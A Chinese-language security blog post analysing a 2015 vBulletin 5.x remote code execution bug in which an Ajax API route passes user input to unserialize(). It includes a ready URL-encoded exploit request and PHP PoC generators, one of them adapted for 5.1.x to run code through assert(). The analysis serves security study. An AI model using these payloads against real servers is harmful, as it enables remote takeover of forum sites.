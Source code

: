 ```yaml
---
layout: post
title: "unserialize() 实战之 vBulletin 5.x.x 远程代码执行"
tags: [web, php, security]
---
```


vBulletin 的一枚 RCE 利用和简要的分析被曝光，产生漏洞的原因源于 vBulletin 程序在处理 Ajax API 调用的时候，使用 `unserialize()` 对传递的参数值进行了反序列化操作，导致攻击者使用精心构造出的 Payload 直接导致代码执行。关于 PHP 中反序列化漏洞的问题可以参考 OWASP 的[《PHP Object Injection》](https://www.owasp.org/index.php/PHP_Object_Injection)。

使用 [原文](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq) 提供的 Payload 可以直接在受影响的站点上执行 `phpinfo(1)`：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/1.png)

具体 Payload 的构造过程也文中有所提及，但是笔者在对 vBulletin 5.1.x 版本进行测试的时候，发现原本的 Payload 并不能成功，甚是疑惑。然而在深入分析后，发现在具体利用的时候还需要结合 vBulletin 程序本身的一些代码结构才能得到一个较为通用的 Payload，通过下面的分析后就能够明白。

### 一、反序列化触发点跟踪

虽然此次漏洞 `unserialize()` 函数的触发在曝光的文章中已经描述的很清楚了，并且对整个关键代码的触发流程也进行了说明，但是在深入跟踪和分析时，觉得还是有值得注意和学习的地方。

    http://172.16.96.130/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2a%00db%22%3BO%3A11%3A%22vB_Database%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7Ds%3A12%3A%22%00%2a%00recordset%22%3Bi%3A1%3B%7D

通过观察服务端在处理PHP时的调用栈，可知服务端在处理上述请求时，会将 `ajax/api/hook/decodeArguments` 作为路由参数 `$_REQUEST['routestring']` 传递给地址路由处理过程。因其符合 `ajax/api/[controller]/[method]` 的 Ajax API 请求路由格式，会再调用 `vB5_Frontend_ApplicationLight` 实例中的 `handleAjaxApi()` 函数来进行相应的模块加载并调用处理函数：

{% highlight php %}
protected function handleAjaxApi()
{
	$routeInfo = explode('/', $_REQUEST['routestring']);

	if (count($routeInfo) < 4)
	{
		throw new vB5_Exception_Api('ajax', 'api', array(), 'invalid_request');
	}
	$params = array_merge($_POST, $_GET);
	$this->sendAsJson(Api_InterfaceAbstract::instance(Api_InterfaceAbstract::API_LIGHT)->callApi($routeInfo[2], $routeInfo[3], $params, true));
}
{% endhighlight %}

请求的 `ajax/api/hook/decodeArguments` 会实例化 `hook` 类然后调用 `decodeArguments()` 函数，原文中所提及的触发点就在此处：

{% highlight php %}
	public function decodeArguments($arguments)
	{
		if ($args = @unserialize($arguments))
		{
			$result = '';
			
			foreach ($args AS $varname => $value)
			{
				$result .= $varname;
{% endhighlight %}

通过反序列化，我们可以使之能生成在执行环境上下文中已经定义好了的类实例，并通过寻找一个含有 `__wakeup()` 或者 `__destruct()` 魔术方法存在问题的类来进行利用。然后原文中所提到的利用方法并不是这样，其使用的是继承于 PHP 迭代器类型的 `vB_dB_Result` 类，由于 `$args = @unserialize($arguments)` 产生了一个迭代器 `vB_dB_Result` 类实例，因此在后面进行 `foreach` 操作时会首先调用其 `rewind()` 函数。

而在 `rewind()` 函数处理过程中，会根据实例变量状态进行调用：

{% highlight php %}
	public function rewind()
	{
		if ($this->recordset)
		{
			$this->db->free_result($this->recordset);
		}
{% endhighlight %}

这里就可以通过反序列化来控制 `$this->recordset` 的值，并且 `$this->db->free_result` 最终会调用：

{% highlight php %}
	function free_result($queryresult)
	{
		$this->sql = '';
		return @$this->functions['free_result']($queryresult);
	}
{% endhighlight %}

`$this->functions['free_result']` 原本的初始化值为 `mysql_free_result`，但是由于反序列化的原因，我们也能控制 `vB_dB_Result` 类实例中的 `db` 成员，更改其对应的 `functions['free_result']` 为我们想要执行的函数，因此一个任意代码执行就产生了。

### 二、利用分析和完善

观察一下原文中提供的 Payload 构造 PoC：

{% highlight php %}
<?php
class vB_Database {
       public $functions = array();
       public function __construct() {
               $this->functions['free_result'] = 'phpinfo';
       }
}

class vB_dB_Result {
       protected $db;
       protected $recordset;
       public function __construct() {
               $this->db = new vB_Database();
               $this->recordset = 1;
       }
}

print urlencode(serialize(new vB_dB_Result())) . "\n";
{% endhighlight %}

通过第一部分的分析，我们已经清楚了整个漏洞的函数调用过程和原因，并且也已经得知哪些参数可以得到控制和利用。因此这里我们修改 `$this->functions['free_result'] = 'assert';` 和 `$this->recordset = 'var_dump(md5(1))';`，最终远程代码执行的的函数则会是 `assert('var_dump(md5(1))')`：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/2.png)

这个时候其实 RCE 已经非常的顺利了，但是在进行测试的时候却发现了原文所提供的 PoC 只能复现 5.0.x 版本的 vBulletin，而 5.1.x 版本的却不可以。通过本地搭建测试环境，并使用同样的 PoC 去测试，发现在 5.1.x 版本中 `vB_Database` 被定义成了抽象类：

{% highlight php %}
abstract class vB_Database
{
	/**
	 * The type of result set to return from the database for a specific row.
	 */
{% endhighlight %}

抽象类是不能直接进行实例化的，原文提供的 PoC 却是实例化的 `vB_Database` 类作为 `vB_dB_Result` 迭代器成员 `db` 的值，在服务端进行反序列化时会因为需要恢复实例为抽象类而导致失败：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/3.png)

这就是为什么在 5.1.x 版本上 PoC 会不成功的原因。然后要解决这个问题也很容易，通过跟踪调用栈，发现程序在反序列化未定义类时会调用程序注册的 `autoload()` 方法去动态加载类文件。这里 vBulletin 会依次调用 `includes/vb5/autoloader.php` 中的 `_autoload` 方法和 `core/vb/vb.php` 中的 `autoload()` 方法，成功加载即返回，失败则反序列化失败。所以要想继续使用原有 PoC 的思路来让反序列化后会执行 `$this->db->free_result($this->recordset);` 则需要找到一个继承于 `vB_Database` 抽象类的子类并且其源码文件路径能够在 autoload 过程中得到加载。

通过搜索，发现有如下类继承于 `vB_Database` 抽象类及其源码对应的路径：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/4.png)
    
而终代码进行进行 autoload 的时候会解析传递的类名来动态构造尝试加载的源码文件路径：

{% highlight php %}
...省略
	$fname = str_replace('_', '/', strtolower($class)) . '.php';

	foreach (self::$_paths AS $path)
	{
		if (file_exists($path . $fname))
		{
			include($path . $fname);
			if (class_exists($class, false))
			{
				return true;
			}
{% endhighlight %}

上面这段代码存在于第一次调用的 `__autoload()` 里，可以看到对提供的类名以 `_` 进行了拆分，动态构造了加载路径（第二次 autoload() 的过程大致相同），简单分析一下就可以发现只有在反序列化 `vB_Database_MySQL` 和 `vB_Database_MySQLi` 这两个基于 `vB_Database` 抽象类的子类时，才能成功的动态加载其类定义所在的源码文件使得反序列化成功执行，最终才能控制参数进行任意代码执行。

所以，针对 5.1.x 版本 vBulletin 的 PoC 就可以得到了，使用 `vB_Database_MySQL` 或者 `vB_Database_MySQLi` 作为迭代器 `vB_dB_Result` 成员 `db` 的值即可。具体 PoC 如下：

{% highlight php %}
<?php
class vB_Database_MySQL {
       public $functions = array();
       public function __construct() {
               $this->functions['free_result'] = 'assert';
       }
}

class vB_dB_Result {
       protected $db;
       protected $recordset;
       public function __construct() {
               $this->db = new vB_Database_MySQL();
               $this->recordset = 'print("This Vuln In 5.1.7")';
       }
}

print urlencode(serialize(new vB_dB_Result())) . "\n";
{% endhighlight %}

测试一下，成功执行 `assert('print("This Vuln In 5.1.7")')`：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/5.png)

当然了，PoC 不止上面所提供的这一种写法，仅供参考而已。

### 三、小结

此次 vBulletin 5.x.x RCE 漏洞的曝光，从寻找触发点到对象的寻找，再到各种自动加载细节，不得不说是一个很好的 PHP 反序列化漏洞实战实例。不仔细去分析真的不能发现原作者清晰的思路和对程序的熟悉程度。

另外，[Check Point](http://blog.checkpoint.com/) 在其官方博客上也公布了反序列化的另一个利用点，通过反序列化出一个模版对象最终调用 `eval()` 函数进行执行（[原文](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)）。

### 参考

* [http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq)
* [https://www.owasp.org/index.php/PHP_Object_Injection](https://www.owasp.org/index.php/PHP_Object_Injection)
* [http://php.net/manual/en/class.iterator.php](http://php.net/manual/en/class.iterator.php)
* [http://www.php.net/manual/en/function.autoload.php](http://www.php.net/manual/en/function.autoload.php)
* [http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)
* [http://www.sebug.net/vuldb/ssvid-89707](http://www.sebug.net/vuldb/ssvid-89707)


